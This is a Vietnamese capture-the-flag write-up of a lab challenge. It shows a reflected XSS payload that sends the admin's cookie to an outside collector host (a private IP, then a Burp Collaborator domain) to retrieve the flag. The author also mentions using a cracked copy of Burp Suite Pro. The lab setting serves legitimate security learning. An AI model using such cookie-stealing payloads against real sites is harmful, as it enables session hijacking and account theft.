  ## CHALLENGE: STEAL COOKIE

 Lại là một challenge khá là hay đến từ Cookie Arena.

 <img src="img/img1.png">

 Ở phần mô tả cũng đã nói qua là web này dính XSS, và nhiệm vụ của chúng ta là sử dụng JS để tạo ra 1 payload ăn cắp cookie của admin rồi sau đó dán vào memo để lấy flag.

 Challenge này cũng không khó, chủ yếu là mọi người phải có 1 web or server để nó trả về cookie.
 Ở đây tui có đi crack Burp Suite bản Pro nên có ```Collaborator tab```. Đừng đi méc là tui crack, plssssss.

 <img src="img/img2.png">

 Khi vào flag chúng ta thấy 1 tham số trống, nên chắc là tham số chúng ta thêm vào để ông admin nhấn vào.
 Sau khi search google thì tui tìm được trang [github](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md) nó có chứa payload để thực hiện.

 Tui chọn payload ni: ```<script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>```

 Vì ren tui chọn payload nớ, vì ni theo tui nghĩ thôi, payload 1 sẽ sử dụng ở những phần comment có chứa xss, còn ở đây là URL nên chúng ta chỉ cần 1 dòng. Rứa thoi.

 Mở Burp pro lên, ở phía bên trái trên cùng mọi người chọn Burp -> Burp Collaborator Client, sau đó 1 cửa sổ sẽ hiện lên.

<img src="img/img3.png">

<img src="img/img4.png">

Mọi người chọn ```Copy to Clipboard```, nó sẽ lưu 1 sub-collaborator cho mình. Và mọi người dán vào payload ở trên, nhớ là không xóa ```http://``` nghe.
Nó sẽ ra như này ```<script>var i=new Image;i.src="http://xnoktznp673dvn9oge1rpoe79yfo3d.oastify.com/?"+document.cookie;</script>```

Rồi dán payload vào trang thôi.


Sau khi dán vào thì mọi người sẽ có 1 pop-up hiện ra. Nhưng không cần quan tâm lắm.
Mọi người mở lại tab ```Collaborator Client``` của Burp Suite, và sẽ thầy kết quả, chúng ta chú ý đến type HTTP thay vì DNS.
Nếu không có kết quả thì nhấn Poll now hoặc kiểm tra lại payload.
Click vào type HTTP và chuyển sang mục ```Request to Collaborator``` và flag xuất hiện.

<img src="img/img6.png">

And done the challenge.

## THANK YOU FOR LEARNING GUYS

## PATIENCE IS THE KEY, SO KEEP TRYING EVERYDAY, LUV U <3
